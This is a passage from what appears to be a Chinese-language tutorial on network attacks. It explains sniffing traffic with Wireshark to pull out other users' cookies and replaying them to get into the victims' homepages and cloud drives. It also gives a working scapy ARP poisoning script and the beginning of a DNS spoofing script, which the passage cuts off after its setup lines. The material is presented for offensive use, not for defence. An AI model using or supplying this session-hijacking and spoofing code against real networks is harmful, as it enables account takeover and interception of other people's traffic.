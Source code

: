 　　![img](../../../../#ImageAssets/262353279026525-1573358989603.png)

　　经过一段时间的抓包之后就可以停止了。打开wireshark分析捕获到的数据包分析，使用过滤语法，找出含有cookies的数据包：

　　![img](../../../../#ImageAssets/270003052314382-1573358989603.png)　　

　　复制出cookies的值，并在浏览器中利用，这里推荐一款好用的cooikes利用工具cookie-injecting-tools（地址：https://github.com/lfzark/cookie-injecting-tools）。利用成功后，刷新页面，就可以进入到被人的主页和网盘了：

![img](../../../../#ImageAssets/270017361996663-1573358989635.png)  ![img](../../../../#ImageAssets/270018350278790-1573358989635.png)

　　**DNS欺骗：**

　　使用ettercap进行的DNS欺骗是使用了它的一个插件，同时结合ARP欺骗，就可以达到很好的欺骗效果。这里不再重复介绍了。重点是下面使用python实现的ARP欺骗和DNS欺骗：

```
#!/usr/bin/python# arp-poisoning
 
import sys
from scapy.all import sniff, sendp, ARP, Ether
 
if len(sys.argv) < 2:
    print sys.argv[0] + " <iface>"
    sys.exit(0)
def arp_poison_callback(packet):
    # Got ARP request?
    if packet[ARP].op == 1:
        answer = Ether(dst=packet[ARP].hwsrc) / ARP()
        answer[ARP].op = "is-at"
        answer[ARP].hwdst = packet[ARP].hwsrc
        answer[ARP].psrc = packet[ARP].pdst
        answer[ARP].pdst = packet[ARP].psrc
 
        print "Fooling " + packet[ARP].psrc + " that " + \
              packet[ARP].pdst + " is me"
        sendp(answer, iface=sys.argv[1])
 
sniff(prn=arp_poison_callback,
      filter="arp",
      iface=sys.argv[1],
      store=0)
 
```

 

```bash
#!/usr/bin/env python
# dns-spoofing
#
# A simple DNS spoofing script
# It's batter with ARP-Spoofing
# and delete the local hosts file
# at same time.
# The hosts-file like this:
# 123.12.23.121 www.google.com
#
 
import sys
import getopt
import scapy.all as scapy
 
dev = "eth0"
filter = "udp port 53"
file = None
dns_map = {}
 
```